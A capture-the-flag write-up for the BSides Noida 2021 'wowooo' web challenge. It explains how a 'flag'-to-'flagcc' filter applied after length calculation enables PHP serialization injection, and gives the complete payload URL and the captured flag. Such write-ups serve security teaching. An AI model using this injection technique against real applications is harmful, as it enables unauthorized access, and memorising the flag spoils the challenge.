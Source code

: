 # wowooo 462 points

# Description
it's really interesting
Note : Bruteforce is not required.

[Link](http://34.88.85.200:4001/)

# Solution

There are no interesting things on the web page so I look at the source code

```html
PLSSS DONT HACK ME!!!!!!
<!-- debug -->
```

There is a comment "**debug**"

So we have to set "**debug**" http parameter

`34.88.85.200:4001/?debug`

We can see the source code
```php
 <?php
include 'flag.php';
function filter($string){
    $filter = '/flag/i';
    return preg_replace($filter,'flagcc',$string);
}
$username=$_GET['name'];
$pass="V13tN4m_number_one";
$pass="Fl4g_in_V13tN4m";
$ser='a:2:{i:0;s:'.strlen($username).":\"$username\";i:1;s:".strlen($pass).":\"$pass\";}";

$authen = unserialize(filter($ser));

if($authen[1]==="V13tN4m_number_one "){
    echo $flag;
}
if (!isset($_GET['debug'])) {
    echo("PLSSS DONT HACK ME!!!!!!").PHP_EOL;
} else {
    highlight_file( __FILE__);
}
?>
<!-- debug --> 
```
Let's understand the code
```php
<?php
include 'flag.php';
```
It include other *php file* `flag.php`.Our **flag** must be there

```php
function filter($string){
    $filter = '/flag/i';
    return preg_replace($filter,'flagcc',$string);
}
```
The `filter` function looks for "**flag**" in `$string` and **replaces** it with "**flagcc**"
```php
$username=$_GET['name'];
$pass="V13tN4m_number_one";
$pass="Fl4g_in_V13tN4m";
$ser='a:2:{i:0;s:'.strlen($username).":\"$username\";i:1;s:".strlen($pass).":\"$pass\";}";
```
The website takes `name` http parameter and stores it in `$username`.

Then it set `$pass` variable. ( Note: the `$pass` will be "Fl4g_in_V13tN4m" because it is seted after "V13tN4m_number_one" )

Our input will be combined with [PHP Serialization Format](https://en.wikipedia.org/wiki/PHP_serialization_format) string in `$ser` variable.
```php
$authen = unserialize(filter($ser));

if($authen[1]==="V13tN4m_number_one "){
    echo $flag;
}
```
The `$ser` will be passed into `filter` function and then [unserialize](https://www.php.net/manual/en/function.unserialize.php) function

And then the *second* index of the result will be *compared* with "V13tN4m_number_one ". ( Note there is a space after the string )

If **equals**, our **flag** will be echoed.
```php
if (!isset($_GET['debug'])) {
    echo("PLSSS DONT HACK ME!!!!!!").PHP_EOL;
} else {
    highlight_file( __FILE__);
}
?>
<!-- debug --> 
```
The rest is checking `debug` http parameter and if it is seted show the source *code*

So far we understand the code

To get the **flag** the second index of the result from `unserialize` must be "V13tN4m_number_one " instead of "Fl4g_in_V13tN4m"

Our *input* which is combined with *serialization format* in `$ser` variable is unfiltered and we can do **injection** attack!

But we can't send `";i:1;s:19:"V13tN4m_number_one ";}` straight because `strlen($username)` return the length of our whole payload
```
a:2:{i:0;s:strlen($username):"$username;...

becomes

a:2:{i:0;s:34:"";i:1;s:19:"V13tN4m_number_one ";}... 
```
The integer after **first** `s` must be the length of the **first** string.In our case it is `34` and the string is empty ""

So it doesn't work

Luckily there is `filter` function which replaces "flag" with "flagcc" and extending the length of the **first** string by 2.The function is called after `strlen($username)` so we can make our *length* of **first string** equals to the result of `strlen`

After trying for the length to be matched, the final *payload* looks like this

`flagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflag";i:1;s:19:"V13tN4m_number_one ";}`

When we pass that *payload*
```
before passing to filter function
a:2:{i:0;s:102:"flagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflag";i:1;s:19:"V13tN4m_number_one ";}...

after passing to filter function
a:2:{i:0;s:102:"flagccflagccflagccflagccflagccflagccflagccflagccflagccflagccflagccflagccflagccflagccflagccflagccflagcc";i:1;s:19:"V13tN4m_number_one ";}..
```
The length of **first** string `flagccflagcc...` is now 102 and it equals to the integer after **first** `s`

Send that **payload**!!!

`http://34.88.85.200:4001/?name=flagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflag%22;i:1;s:19:%22V13tN4m_number_one%20%22;}`

And there is the flag

<img src="https://raw.githubusercontent.com/MikelAcker/CTF_WRITEUPS_2021/main/BSides_Noida_CTF_2021_Writeup/Web/wowooo/info.png">

*flag*: `BSNoida{3z_ch4all_46481684185_!!!!!!@!}`
